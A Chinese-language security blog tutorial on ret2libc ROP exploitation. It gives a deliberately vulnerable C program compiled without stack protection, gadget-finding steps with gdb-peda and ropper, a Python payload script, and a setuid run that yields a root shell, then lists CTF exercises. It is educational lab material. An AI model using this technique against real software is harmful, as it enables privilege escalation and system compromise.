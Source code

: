 ```yaml
---
layout: blog
book: true
title:  "简单的ROP"
background: green
background-image: http://ot1cc1u9t.bkt.clouddn.com/17-7-15/78939382.jpg
date:   2018-08-28 14:43:11
category: 安全
tags:
- ROP 
---
```


- 现代栈溢出利用技术基础:ROP
- 利用signal机制的ROP技术:SROP
- 没有binary怎么办:BROP
- 劫持栈指针:Stack Pivot
- 利用动态链接绕过ASLR:ret2dll resolve、fake linkmap
- 利用地址低12bit绕过ASLR:Partial Overwrite
- 绕过stack canary:改写指针与局部变量、leak canary、overwrite canary
- 溢出位数不够怎么办:覆盖ebp,Partial Overwrite

----

本文例子是一种代码复用技术，通过控制栈调用来劫持控制流
Google关键字:Ret2libc,ROP


## 0x01、实例

```c++
/* Compile: gcc -fno-stack-protector ret2libc.c -o ret2libc      */
/* Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space     */

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}   
```

编译后，进行下列步骤：

1.安装[gdb-peda](https://github.com/longld/peda)，然后gdb ./ret2libc->start->find "/bin/sh"，得到地址0x7ffff7b91543；

2.继续，使用p system，找到system函数的地址0x7ffff7a57590；

3.安装[ropper](https://github.com/sashs/Ropper)，然后使用ropper --file ./ret2libc --search "% ?di"，找到pop %rdi; ret;的地址0x00000000004006a3。


注意，因为我们是64位机器，默认使用的是寄存器rdi等传递参数，所以，我们需要使用rop技术，先将栈上的参数pop到寄存器rdi中，再调用system()函数。

接着，使用这三个地址，构造payload：
```python
#!/usr/bin/env python

from struct import *

buf = ""
buf += 'A'*104                          # junk
buf += pack("<Q", 0x00000000004006a3)       # pop rdi; ret;
buf += pack("<Q", 0x7ffff7b91543)       # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a57590)       # address of system()
#print buf
f = open("in.txt", "w")
f.write(buf)
```

执行该脚本，生成payload文件in.txt。

给./ret2libc添加权限:

```
sudo chown root ./ret2libc
sudo chmod 4755 ./ret2libc
```

执行：
```
➜  Desktop (cat in.txt ; cat) | ./ret2libc
Try to exec /bin/sh
Read 128 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
whoami
root
```

成功获得root shell。

![Shell](https://raw.githubusercontent.com/catsay217994/catsay217994.github.io/master/_posts/security_image/rop.png "ROP")


## CTF中ROP常规套路:

- 第一次触发漏洞，通过ROP泄露libc的address(如puts_got),计算system地址,然后返回到一个可以重现触发漏洞的位置(如main),再次触发漏洞
通过ROP调用system("/bin/sh")
- 直接execve("/bin/sh",["/bin/sh"],NULL),通常在静态链接时比较常用

## 习题
	- Defcon 2015 Qualifier:R0pbaby
	- AliCTF 2016:vss
	- PlaidCTF 2013:ropasaurusrex
	
# 作业:
	- 根据R0pbaby的writeup重写exploit
	- 尝试做vss和ropasaurusrex
	
